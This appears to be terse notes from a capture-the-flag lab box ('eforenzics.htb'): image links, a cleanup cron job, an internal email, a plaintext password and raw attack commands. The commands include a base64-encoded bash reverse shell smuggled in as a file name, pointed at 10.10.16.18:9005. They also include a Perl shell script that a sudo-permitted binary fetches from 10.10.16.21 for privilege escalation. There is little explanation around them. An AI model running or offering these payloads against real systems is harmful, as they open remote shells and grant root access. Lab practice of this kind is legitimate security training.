 file name:
`echo 'YmFzaCAtYyAnZXhlYyBiYXNoIC1pICY+L2Rldi90Y3AvMTAuMTAuMTYuMTgvOTAwNSA8JjEnCg==' | base64 -d | bash`

```
*/5 * * * * date >> /usr/local/investigation/analysed_log && echo "Clearing folders" >> /usr/local/investigation/analysed_log 
&& rm -r /var/www/uploads/* && rm /var/www/html/analysed_images/*
```
SMTP:STEVE.MORTON@EFORENZICS.HTB
Hi Steve,

Can you look through these logs to see if our analysts have been logging on to the inspection terminal. I'm concerned that they are moving data on to production without following our data transfer procedures.

Regards.

Tom
Thomas Jones <thomas.jones@eforenzics.htb>
![[Pasted image 20230122000745.png]]
`Def@ultf0r3nz!csPa$$`
![[Pasted image 20230122000757.png]]

![[Pasted image 20230122004520.png]]

![[Pasted image 20230122012314.png]]

`echo "exec "/bin/sh"; > test.pl"`
`sudo /usr/bin/binary http://10.10.16.21/test.pl lDnxUysaQn`
